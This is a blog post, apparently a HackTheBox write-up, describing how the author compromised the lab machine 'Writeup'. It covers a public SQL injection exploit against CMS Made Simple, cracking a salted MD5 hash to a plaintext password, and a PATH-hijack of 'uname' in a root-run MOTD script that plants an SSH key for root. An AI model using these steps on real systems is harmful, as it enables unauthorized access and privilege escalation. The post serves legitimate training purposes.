 ```yaml
---
layout: default
title: "HTB - Writeup"
date: 2020-02-03
permalink: /hackthebox/writeup/
categories: hackthebox sqli linux web
image: writeup.png
---
```


Writeup was one of the first boxes I did when I joined Hackthebox. It definitely helped to introduce me to basic web enum skills without relying on scripts, exploit finding and local privilege escalation. It had a very interesting path to root, which was tricky to spot but fun to exploit.
<!--more-->
**Summary**
**User** - A vulnerability in an open-source content management system allows us to gather hashed credentials, which can be cracked using a wordlist.

**Root** - An MOTD script is run as root when the user account is logged into, which we can take control of.
## User
### Enumeration
We start off with a standard `nmap` scan. Normally I'd leave one running to scan all ports aggressively, but it wasn't necessary in this case.
```
root@clubby789:~# nmap writeup.htb -v
[ ... ]
Discovered open port 80/tcp on 10.10.10.138 <- Web (HTTP)
Discovered open port 22/tcp on 10.10.10.138 <- SSH
```
We'll start of by adding `10.10.10.138 writeup.htb` to our /etc/hosts file to make accessing this site easier.
### Website
Upon visiting `writeup.htb` we are greeted with this page: 
![Main page](/assets/writeup1.png)

So we've got DDoS protection in play. If we produce too many 40x errors, we'll get temporarily banned, which means no automated scanners. At this point, I guessed urls until I came across the fairly obvious `/writeup/`.
![Writeups](/assets/writeup2.png)

A quick read of the HTML finds this in the header:
 `<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved.">`. At the time, I spotted this quicker because of a very useful Firefox extension [Wappalyzer](https://www.wappalyzer.com/), which identifies many of the client and server-side technologies in use on many sites.
 
### CMSMadeSimple
 After a short search, I found [this script](https://www.exploit-db.com/exploits/46635), which exploits a SQL injection vulnerability in versions of CMSMS 2.2.9 and below. 
```
root@clubby789:~/boxes/writeup# python cms.py -u http://writeup.htb/writeup
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
The script has a built-in function to crack passwords, showing that the format of the hashes was `MD5(PASS+SALT) = HASH` (I found the script to be slow so I dropped the hashes into Hashcat).
`62def4866937f08cc13bab43bb14e6f7:5a599ef579066807` -> `raykayjay9`

```
root@clubby789:~/boxes/writeup# ssh jkr@writeup.htb 
jkr@writeup.htb's password: 
[ ... ]
user.txt
jkr@writeup:~$ cat user.txt 
d4e493....
```
And we've owned user.

## Root
### Local Enumeration
This part was definitely tricky without being on the free servers. Luckily, I was at the time, and was able to take advantage of two things: 

 - Somone had uploaded `pspy64s`, an excellent tool for discovering Cron jobs and other time-based things that may be hard to spot
 - Frequent SSH logins
If I setup two terminal panes, one with `pspy64s` and log in with SSH on the other, we see this:
![Pspy Output](/assets/writeup3.png)
The important part is 
`sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new`:

Every time `jkr` logs in over SSH, this command is run as root!

### Command Hijacking
Let's break this down: 
- `sh -c` runs everything after `-c` in `sh`
- `/usr/bin/env -i PATH=.....` sets the PATH to the given argument.
- `run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new` runs every script in the directory `/etc/update-motd.d`, and pipes the output to the MOTD file.

Inside this directory, we find a single file, `10-uname`, which simply runs:
```
#!/bin/sh
uname -rnsom
```
This directory and all its contents are owned by root and not writable, so no luck there. Let's look into the PATH that gets set, and see if we can hijack anything there. I quickly found I could write files to `/usr/local/sbin/`. Why's this important? Here's a diagram:
```
   writable                       actual location of uname
      |                                     |
      V                                     V                                 
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
As `uname`'s absolute path is not specified, the system will iterate through the given path to find it, using the first instance it finds. I'll demonstrate this with a quick POC: 
```

jkr@writeup:/tmp$ echo "touch /tmp/test" > /usr/local/sbin/uname
jkr@writeup:/tmp$ chmod +x /usr/local/sbin/uname
[ ... ]

jkr@writeup:/tmp$ ls /tmp/test -la
-rw-r--r-- 1 root root 0 Feb  3 16:16 /tmp/test
```
The file is owned by root, which means we have RCE! From here, it's a quick step to root. I uploaded my public key to `/home/jkr/.ssh/authorized_keys`, ran `echo "mkdir /root/.ssh/; cp /home/jkr/.ssh/authorized_keys /root/.ssh/authorized_keys" > /usr/local/sbin/uname; chmod +x /usr/local/sbin/uname` to create my script, then logged in to `jkr` once more (quickly, as the script gets cleared pretty often). I was then able to log out, and log back in as root!
```
root@clubby789:~# ssh writeup-root 
[ ... ]
root@writeup:~# ls
bin  root.txt
root@writeup:~# cat root.txt 
eeba47f.....
```
And we've owned root

## Final Notes
### SSH Tricks
Recently I've started making use of the SSH config file, to speed up logging in over SSH. Here's what mine looked like for this box:
```
Host writeup
	HostName 10.10.10.138
	User jkr
Host writeup-root
	HostName 10.10.10.138
	User root
```
This allows me to do `ssh writeup` or `ssh writeup-root`. After uploading my public key to `~/.ssh/authorized_keys`, this means I don't even need to enter a password.
### Cleanup script
I'm always interested in seeing how box creators keep their machines stable for other players. While in /root, I noticed `cleanup.pl`, which looks like this:
```
root@writeup:~# cat bin/cleanup.pl 
#!/usr/bin/perl
my $age = 60;
while ($_ = glob('/usr/local/sbin/* /usr/local/bin/*')) {
  next if -d $_;
  my $mtime = (stat($_))[9];
  # delete files older than 3 minutes
  # to try to not spoil others
  if(time-$mtime > $age) {
    unlink($_);
  }
}
```
This checks the age of all files in `/usr/local/sbin (or /usr/local/bin)` and deletes any older than 1 minute ( not 3 as advertised).
